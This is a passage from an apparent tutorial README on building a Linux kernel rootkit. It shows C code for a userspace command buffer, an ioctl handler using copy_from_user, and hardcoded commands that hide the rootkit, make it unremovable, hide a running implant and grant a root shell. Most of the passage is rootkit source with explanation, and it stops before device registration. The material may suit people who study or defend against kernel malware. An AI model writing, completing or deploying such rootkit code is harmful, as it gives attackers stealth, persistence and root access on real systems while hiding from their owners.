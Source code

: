 c) In order to read commands from registered Character Device Driver (i.e. commands which are stored inside Character Device Driver from <ins>Userspace</ins>), I created an array named **`value`** with size of MAX_LIMIT(=20) to store it and be compared against those provided/hardcoded commands present in the rootkit.

```c
// For size of array
#define MAX_LIMIT 20

// To copy value from userspace
char value[MAX_LIMIT];
```
```c
// =========================== Available Commands =======================

static char rootkit_hide[] = "hide";            // command to hide rootkit => In this mode, in no way this rootkit be removable => rootkit_remove will not work
static char rootkit_show[] = "show";            // command to unhide rootkit => In this mode, rootkit_protect and rootkit_remove will work effectively
static char rootkit_protect[] = "protect";      // command to make rootkit unremovable (even if it can be seen in usermode).
static char rootkit_remove[] = "remove";        // command to make rootkit removable
static char process[] = "process";              // command to hide/unhide running process/implant
static char root[] = "root";                    // command to get root shell  
```
The array named **`value`** will be checked against these above mentioned commands, to perform specific tasks.
```c
// ======= This function will be called when somebody write IOCTL on the Device file =====

static long etx_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
switch(cmd) {
	case WR_VALUE:
	/*
	 * copy_from_user():
	 * - a direct read from the userspace address and write to the kernelspace address
	 * Or, Copy data from User space to Kernel Space
	 */
	if( copy_from_user(value ,(int32_t*) arg, MAX_LIMIT) )
	{
		pr_err("Data Write : Err!\n");
	}
	pr_info("               Value got from device file= %s\n", value);
		...
		...
	}
}
```
I'm skipping all those string comparisons present after this snippet, as it is pretty much an easy thing to understand, same as C programming in Usermode.

d) Registering and Unregistering the Character Device:
